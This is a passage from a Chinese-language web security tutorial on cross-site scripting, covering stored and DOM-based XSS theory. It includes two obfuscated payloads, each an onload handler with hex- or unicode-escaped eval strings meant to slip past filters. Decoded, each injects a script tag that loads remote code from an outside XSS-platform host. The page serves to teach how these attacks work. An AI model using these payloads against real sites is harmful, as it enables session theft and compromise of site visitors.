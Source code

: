 

**3.混合编码绕过**

```
<body/οnlοad=eval("\x64\x6f\x63\x75\x6d\x65\x6e\x74\x2e\x77\x72\x69\x74\x65\x28\x53\x74\x72\x69\x6e\x67\x2e\x66\x72\x6f\x6d\x43\x68\x61\x72\x43\x6f\x64\x65\x28\x36\x30\x2c\x31\x31\x35\x2c\x36\x37\x2c\x31\x31\x34\x2c\x37\x33\x2c\x31\x31\x32\x2c\x31\x31\x36\x2c\x33\x32\x2c\x31\x31\x35\x2c\x31\x31\x34\x2c\x36\x37\x2c\x36\x31\x2c\x34\x37\x2c\x34\x37\x2c\x31\x32\x30\x2c\x31\x31\x35\x2c\x34\x36\x2c\x31\x31\x35\x2c\x39\x38\x2c\x34\x37\x2c\x38\x39\x2c\x38\x34\x2c\x38\x35\x2c\x31\x30\x34\x2c\x36\x32\x2c\x36\x30\x2c\x34\x37\x2c\x31\x31\x35\x2c\x36\x37\x2c\x38\x32\x2c\x31\x30\x35\x2c\x31\x31\x32\x2c\x38\x34\x2c\x36\x32\x29\x29\x3b")>
```

混合编码，加密顺序为先ascii编码加密，再十六进制加密

[字符16进制加密/解密 - 一个工具箱 - 好用的在线工具都在这里！ (atoolbox.net)](http://www.atoolbox.net/Tool.php?Id=816)



```
<body/οnlοad=eval("\u0064\u006F\u0063\u0075\u006D\u0065\u006E\u0074\u002E\u0077\u0072\u0069\u0074\u0065\u0028\u0053\u0074\u0072\u0069\u006E\u0067\u002E\u0066\u0072\u006F\u006D\u0043\u0068\u0061\u0072\u0043\u006F\u0064\u0065\u0028\u0036\u0030\u002C\u0031\u0031\u0035\u002C\u0036\u0037\u002C\u0038\u0032\u002C\u0031\u0030\u0035\u002C\u0038\u0030\u002C\u0031\u0031\u0036\u002C\u0033\u0032\u002C\u0031\u0031\u0035\u002C\u0038\u0032\u002C\u0036\u0037\u002C\u0036\u0031\u002C\u0034\u0037\u002C\u0034\u0037\u002C\u0031\u0032\u0030\u002C\u0031\u0031\u0035\u002C\u0034\u0036\u002C\u0031\u0031\u0035\u002C\u0039\u0038\u002C\u0034\u0037\u002C\u0034\u0039\u002C\u0036\u0036\u002C\u0031\u0031\u0033\u002C\u0031\u0031\u0037\u002C\u0036\u0032\u002C\u0036\u0030\u002C\u0034\u0037\u002C\u0031\u0031\u0035\u002C\u0036\u0037\u002C\u0031\u0031\u0034\u002C\u0037\u0033\u002C\u0031\u0031\u0032\u002C\u0038\u0034\u002C\u0036\u0032\u0029\u0029\u003B")>

```

混合编码，加密顺序为先ascii编码加密，再unicode加密

![image-20250423202518061](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202504232025106.png)

![image-20250423202531675](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202504232025708.png)

### **存储型 XSS**

（1）原理
  存储型XSS和反射型XSS的差别仅在于，提交的代码会存储在服务器端（数据库、内存、文件系统等），下次请求目标页面时不用再提交XSS代码。最典型的例子就是留言板XSS，用户提交一条包含XSS代码的留言存储到数据库，目标用户查看留言板时，那些留言就会从数据库中加载出来并显示，于是触发了XSS攻击

（2）攻击方式
  这种攻击多见于论坛、博客和留言板中，攻击者在发帖的过程中，将恶意脚本连同正常的信息一起注入帖子的内容中。随着帖子被服务器存储下来，恶意脚本也永久的存放在服务器的后端存储器中。当其他用户浏览这个被注入了恶意脚本的帖子时，恶意脚本会在它们的浏览器中得到执行

### DOM型XSS

(1）原理
  文档对象模型Document Object Model（DOM）是一个与平台、编程语言不相干的接口，允许程序或脚本动态地访问和更新文档内容、结构和样式，处理后的结果会成为展示页面的一部分

DOM型xss其实是一种特殊类型的反射型xss，也被称作本地跨站，它是基于DOM文档对象模型的一种漏洞。DOM XSS和反射型XSS、存储型XSS的区别在于DOM XSS代码并不需要服务器参与，出发XSS靠的是浏览器的DOM解析，完全是客户端的事情
